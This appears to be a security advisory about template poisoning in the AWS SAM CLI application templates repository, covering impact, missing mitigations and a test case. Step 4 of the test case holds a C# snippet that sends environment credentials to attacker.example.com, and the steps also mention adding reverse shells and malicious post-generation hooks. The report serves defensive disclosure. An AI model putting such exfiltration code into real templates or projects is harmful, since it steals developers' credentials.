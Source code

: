 ### Vulnerability Name: Template Poisoning
Description: |
  The AWS SAM CLI Application Templates repository provides templates used by the `sam init` command to create new serverless applications. These templates, written in YAML/JSON and various programming languages, are fetched from this repository when a user initializes a new project using the `sam init` command.

  An attacker could potentially compromise these templates by injecting malicious code. This can be achieved by:
  1. An attacker gains write access to the repository (e.g., through compromised credentials or by exploiting a repository vulnerability if present).
  2. The attacker modifies template files within the repository, injecting malicious code (e.g., shell commands, scripts to exfiltrate credentials).
  3. The attacker pushes these changes to the repository.
  4. A user, unaware of the compromise, uses `sam init` to create a new project, potentially selecting a poisoned template, either directly by specifying the template location or indirectly by using a default template that has been poisoned.
  5. The `sam init` command fetches the compromised template from the repository.
  6. During project initialization, the malicious code embedded in the template is executed in the user's development environment. This could occur during the template rendering phase or during any build scripts included within the template that are executed by `sam init` or subsequent build commands.

Impact: |
  Successful template poisoning can have severe consequences for users initializing projects with compromised templates:
  - Credential Theft: Malicious code can steal AWS credentials or other sensitive information from the user's development environment (e.g., environment variables, AWS configuration files).
  - Remote Code Execution: Attackers can gain arbitrary code execution within the developer's local machine, potentially leading to further system compromise, data breaches, or supply chain attacks.
  - Backdoor Installation: Malicious code can establish backdoors for persistent access to the developer's environment or deployed applications.
  - Data Exfiltration: Sensitive project files or environment information could be exfiltrated to attacker-controlled servers.

Vulnerability Rank: Critical

Currently Implemented Mitigations:
- Currently, there are no specific code-level mitigations implemented within the project itself to prevent template poisoning. The repository relies on GitHub's security features and the security practices of AWS to prevent unauthorized modifications.

Missing Mitigations:
- Code Signing and Verification: Implement a mechanism to sign templates and verify their integrity before `sam init` uses them. This could involve:
    - Digitally signing templates upon release.
    - SAM CLI verifying the signature before using a template.
- Content Security Policy (CSP) for Templates: If templates involve dynamic content rendering, implement CSP to restrict the capabilities of the rendered content and mitigate XSS-like risks.
- Sandboxing or Isolation:  Sandbox the template initialization process to limit the potential damage from malicious code execution. This could involve running template rendering and initial build steps in isolated containers or virtual machines.
- Dependency Checks: Implement checks for dependencies fetched by templates (e.g., npm, pip, maven dependencies) to identify and block known malicious packages.
- Regular Security Audits: Conduct regular security audits of the templates to identify and remove any malicious code that may have been injected.
- User Education: Provide clear warnings and best practices to users about the risks of using templates from untrusted sources and encourage them to review template contents before use.

Preconditions:
- Attacker has write access to the AWS SAM CLI Application Templates repository or a MITM position to inject modified manifest or templates during download.
- User executes `sam init` command and uses a compromised template, either directly or indirectly.
- User development environment is vulnerable to the injected malicious code (e.g., lacks proper security controls, uses vulnerable dependencies).

Source Code Analysis:
- The provided files are primarily README.md files and code examples and tests for various lambda function templates. They do not contain code that directly introduces new vulnerabilities beyond the inherent risk of template poisoning already described. The vulnerability remains in the potential for malicious actors to modify template contents within the repository itself, which is not addressed by the provided application code files. The risk is amplified by the fact that templates can include code in various programming languages and configuration files, allowing for diverse attack vectors within the initialized projects.

Security Test Case:
1. Fork the `aws-sam-cli-app-templates` repository to your own GitHub account.
2. Clone your forked repository locally.
3. Navigate to a template directory (e.g., `dotnet8/hello`).
4. Modify a template file (e.g., `dotnet8/hello/{{cookiecutter.project_name}}/src/HelloWorld/Function.cs`) to include malicious code. For example, add code to exfiltrate AWS credentials to an attacker-controlled server or execute a reverse shell.
   ```csharp
   // Injected malicious code example (for demonstration only, not functional C# exfiltration code):
   string username = Environment.GetEnvironmentVariable("USERNAME");
   string password = Environment.GetEnvironmentVariable("PASSWORD");
   System.Net.WebClient client = new System.Net.WebClient();
   client.DownloadString("http://attacker.example.com/log?user=" + username + "&pass=" + password);
   ```
5. Commit and push your malicious changes to your forked repository.
6. Modify your local SAM CLI configuration to point to your forked repository for template retrieval, as described in the `/code/README.md` file, by updating `samcli/commands/init/init_templates.py` in your local SAM CLI installation to point to your fork and commit hash.
7. Run `sam init --no-input --runtime dotnet8 --app-template hello --name malicious-app` in a test environment.
8. Observe the behavior of the `sam init` command and the created project directory for any signs of malicious activity (e.g., unexpected network connections, unauthorized file modifications, credential access attempts).
9. As an alternative test, create a malicious `post_gen_project.sh` or similar script within a template that executes malicious commands post-generation.
10. Monitor network traffic and system logs during and after `sam init` to detect any malicious activity.

Note: This test case requires careful execution in a controlled, isolated test environment to prevent accidental compromise of sensitive data or systems.